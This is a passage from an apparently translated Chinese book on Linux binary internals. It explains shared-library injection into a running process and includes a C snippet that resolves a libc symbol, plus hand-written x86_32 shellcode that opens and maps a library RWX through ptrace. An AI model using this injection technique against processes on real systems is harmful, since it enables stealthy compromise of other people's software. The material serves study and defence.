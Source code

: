 ```sh
                printf("[!] resolve_symbol failed for symbol '%s'\n", name);
                printf("Try using --manual-elf-loading option\n");
                exit(-1);
        }
        symaddr = symaddr + globals.libc_addr;

        DBG_MSG("[DEBUG]-> get_sym_from_libc() addr of __libc_dl_*: %lx\n", symaddr);
        return symaddr;

}
```

为了进一步揭开共享库注入的神秘，让我向您展示一种更简单的技术:使用`ptrace`注入的 shell 代码将共享库`open()/mmap()`注入到进程地址空间。 这种技术使用起来很好，但它需要恶意软件手动处理所有重定位的热补丁。 `__libc_dlopen_mode()`函数在动态链接器本身的帮助下透明地处理所有这些，因此从长远来看实际上更容易。

### 代码示例- x86_32 shellcode mmap()一个 ET_DYN 对象

下面的 shellcode 可以被注入到一个给定进程的可执行段中，然后使用`ptrace`执行。

请注意，这是我第二次在书中使用这个手写的 shell 代码作为示例。 我在 2008 年为一个 32 位 Linux 系统编写了它，作为示例使用它很方便。 否则，我肯定会写一些新的东西来演示在 x86_64 Linux 中更现代的方法:

```sh
_start:
        jmp B
A:

        # fd = open("libtest.so.1.0", O_RDONLY);

        xorl %ecx, %ecx
        movb $5, %al
        popl %ebx
        xorl %ecx, %ecx
        int $0x80

        subl $24, %esp

        # mmap(0, 8192, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_SHARED, fd, 0);

        xorl %edx, %edx
        movl %edx, (%esp)
        movl $8192,4(%esp)
        movl $7, 8(%esp)
        movl $2, 12(%esp)
        movl %eax,16(%esp)
        movl %edx, 20(%esp)
        movl $90, %eax
        movl %esp, %ebx
        int $0x80

        # the int3 will pass control back the tracer
        int3
B:
        call A
        .string "/lib/libtest.so.1.0"
```
